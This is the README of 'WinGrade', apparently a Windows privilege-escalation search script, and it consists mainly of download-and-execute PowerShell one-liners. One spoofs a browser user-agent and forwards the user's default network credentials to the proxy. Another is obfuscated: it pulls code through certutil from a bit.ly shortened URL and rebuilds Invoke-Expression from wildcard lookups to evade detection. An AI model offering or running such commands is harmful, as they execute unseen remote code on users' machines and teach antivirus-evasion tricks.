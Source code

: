# WinGrade

You can execute it in every Windows Operating System from Windows 7 - 10.

You don't have to Download the Program directly at github.

Just execute [CMD]:
```powershell
powershell "iex(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Crypt2Shell/WinGrade/master/scripts/search.ps1')"
```
or
```powershell
powershell "$down=New-Object Net.WebClient;$down.Headers['User-Agent']='Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US) AppleWebKit/525.19 (KHTML, like Gecko) Chrome/1.0.154.53 Safari/525.19';$down.Proxy.Credentials=[System.Net.CredentialCache]::DefaultNetworkCredentials;$down.DownloadString('https://raw.githubusercontent.com/Crypt2Shell/WinGrade/master/scripts/search.ps1')|iex"
```
in [POWERSHELL]:

```powershell
powershell "iex(((C:\Windows\System32\certutil -ping https://bit.ly/2tZuas2|&(GV *ecu*t -ValueOn).InvokeCommand.(((GV *ecu*t -ValueOn).InvokeCommand.PsObject.Methods|Where-Object{`$_.Name-ilike'Ge*ts'}).Name).Invoke('*ct-Ob*')-Skip 2|&(GV *ecu*t -ValueOn).InvokeCommand.(((GV *ecu*t -ValueOn).InvokeCommand.PsObject.Methods|Where-Object{`$_.Name-ilike'Ge*ts'}).Name).Invoke('*ct-Ob*')-SkipLast 1)-Join'`r`n'))"
```

Tested on following Operating Systems:

|   System        |  x64  |  x86  |
| :---            | :---: | :---: |
| Windows 10      |  <ul><li>- [x]</li></ul>  |  <ul><li>- [ ]</li></ul>  |
| Windows 8.1     |  <ul><li>- [x]</li></ul>  |  <ul><li>- [ ]</li></ul>  |
| Windows 8       |  <ul><li>- [ ]</li></ul>  |  <ul><li>- [ ]</li></ul>  |
| Windows 7       |  <ul><li>- [x]</li></ul>  |  <ul><li>- [ ]</li></ul>  |
| Windows Vista   |  <ul><li>- [ ]</li></ul>  |  <ul><li>- [ ]</li></ul>  |

This Script is still in the early Alpha release!!! And has some bugs
